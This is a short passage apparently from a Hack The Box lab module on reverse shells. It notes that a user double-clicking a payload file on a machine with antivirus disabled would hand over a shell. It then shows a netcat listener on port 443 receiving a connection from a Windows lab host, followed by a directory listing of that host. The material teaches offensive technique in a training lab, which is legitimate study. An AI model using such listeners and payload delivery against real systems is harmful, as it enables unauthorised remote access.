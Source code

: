 If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
```
